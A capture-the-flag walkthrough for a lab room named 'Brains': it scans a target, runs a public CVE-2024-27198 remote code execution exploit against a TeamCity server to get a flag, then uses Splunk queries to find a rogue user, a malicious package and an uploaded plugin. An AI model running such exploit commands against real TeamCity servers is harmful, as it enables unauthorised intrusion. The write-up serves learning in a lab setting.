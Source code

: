 
# Brains Walkthrough

## Port Scan

We start again with a port scan:
```
nmap -sV [Target_Machine_Ip] -T5
```
### Scan Results
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-07 13:16 EEST
Warning: 10.10.35.165 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.10.35.165
Host is up (0.090s latency).
Not shown: 967 closed tcp ports (conn-refused), 30 filtered tcp ports (no-response)
PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http     Apache httpd 2.4.41 ((Ubuntu))
50000/tcp open  ibm-db2?
```

We observe that on port 50000, a relational database management system is running.  
Navigating to: `http://10.10.35.165:50000`, we see a login form for the TeamCity tool.  
Searching for exploits for version 2023.11.3, we find that the application is vulnerable to Remote Code Execution (RCE).  

We download the exploit from [CVE-2024-27198-RCE](https://github.com/W01fh4cker/CVE-2024-27198-RCE).

After executing the command:
```
pip install requests urllib3 faker
```
to install the required packages, we run the following command:
```
python3 CVE-2024-27198-RCE.py -t http://[Target_Machine_Ip]:50000
```

From there, navigating through the system, we find that in the path `/home/ubuntu`, there is a `flag.txt` file with the flag:
```
THM{f______________________________4}
```

---

## Detection

In the next task, we deal with detection.  
Opening Splunk, we go to **Search your data**.  
From there, we begin to create a search query like this:
```
index=* source="/var/log/auth.log"  ("useradd" OR "adduser" OR "new user" OR "created user")
```

In this query:
- `index=*`: Searches across all indexes available in Splunk.
- `source="/var/log/auth.log"`: Limits the search to logs originating from the `/var/log/auth.log` file. This file contains information about security and authentication events on Linux systems.
- `("useradd" OR "adduser" OR "new user" OR "created user")`: Searches for any of these phrases related to the creation of new users on the system.

Running this query, one of the results is the following:
```
7/4/24 10:32:37.000 PM
Jul  4 22:32:37 brains useradd[11207]: new user: name=e______r, UID=1001, GID=1001, home=/home/e______r, shell=/bin/bash, from=/dev/pts/0

host = brains source = /var/log/auth.log sourcetype = auth_logs
```

From this, we can see the name of the malicious user.

---

Next, we execute the following command:
```
source="/var/log/dpkg.log" "install"
```

`/var/log/dpkg.log`: This log file contains information about the installation, upgrade, and removal actions of packages managed via `dpkg`. Every time a package is installed or removed, that action is logged in this file.

The results we get are quite many, but if we look carefully, we will find the correct answer:
```
7/4/24 10:58:25.000 PM
2024-07-04 22:58:25 install d___________r:amd64 <none> 1.0

host = brains source = /var/log/dpkg.log sourcetype = packages
```

---

Now, let's search for a plugin in TeamCity:
```
source="/opt/teamcity/*" "plugin" "uploaded"
```

This gives us only one result:
```
7/4/24 10:08:31.921 PM
[2024-07-04 22:08:31,921]   INFO - s.buildServer.ACTIVITIES.AUDIT - plugin_uploaded: Plugin "A______Y" was updated by "user with id=11" with comment "Plugin was uploaded to /home/ubuntu/.BuildServer/plugins/A______Y.zip"

host = brains source = /opt/teamcity/TeamCity/logs/teamcity-activities.log sourcetype = teamcity_activities
```

